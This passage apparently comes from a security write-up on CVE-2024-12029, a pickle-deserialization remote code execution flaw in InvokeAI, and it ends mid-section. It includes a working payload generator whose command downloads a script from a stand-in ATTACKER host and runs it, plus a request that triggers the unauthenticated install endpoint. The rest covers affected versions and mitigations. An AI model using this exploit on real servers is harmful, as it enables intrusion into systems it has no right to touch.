 ```
The vulnerability was assigned **CVE-2024-12029** (CVSS 9.8, EPSS 61.17 %).

#### Exploitation walk-through

1. Create a malicious checkpoint:

```python
# payload_gen.py
import pickle, torch, os

class Payload:
    def __reduce__(self):
        return (os.system, ("/bin/bash -c 'curl http://ATTACKER/pwn.sh|bash'",))

with open("payload.ckpt", "wb") as f:
    pickle.dump(Payload(), f)
```
```
2. Host `payload.ckpt` on an HTTP server you control (e.g. `http://ATTACKER/payload.ckpt`).
3. Trigger the vulnerable endpoint (no authentication required):

```python
import requests

requests.post(
    "http://TARGET:9090/api/v2/models/install",
    params={
        "source": "http://ATTACKER/payload.ckpt",  # remote model URL
        "inplace": "true",                         # write inside models dir
        # the dangerous default is scan=false → no AV scan
    },
    json={},                                         # body can be empty
    timeout=5,
)
```
```
4. When InvokeAI downloads the file it calls `torch.load()` → the `os.system` gadget runs and the attacker gains code execution in the context of the InvokeAI process.

Ready-made exploit: **Metasploit** module `exploit/linux/http/invokeai_rce_cve_2024_12029` automates the whole flow.

#### Conditions

•  InvokeAI 5.3.1-5.4.2 (scan flag default **false**)
•  `/api/v2/models/install` reachable by the attacker
•  Process has permissions to execute shell commands

#### Mitigations

* Upgrade to **InvokeAI ≥ 5.4.3** – the patch sets `scan=True` by default and performs malware scanning before deserialization.
* When loading checkpoints programmatically use `torch.load(file, weights_only=True)` or the new [`torch.load_safe`](https://pytorch.org/docs/stable/serialization.html#security) helper.
* Enforce allow-lists / signatures for model sources and run the service with least-privilege.

> ⚠️ Remember that **any** Python pickle-based format (including many `.pt`, `.pkl`, `.ckpt`, `.pth` files) is inherently unsafe to deserialize from untrusted sources.

---

Example of an ad-hoc mitigation if you must keep older InvokeAI versions running behind a reverse proxy:

```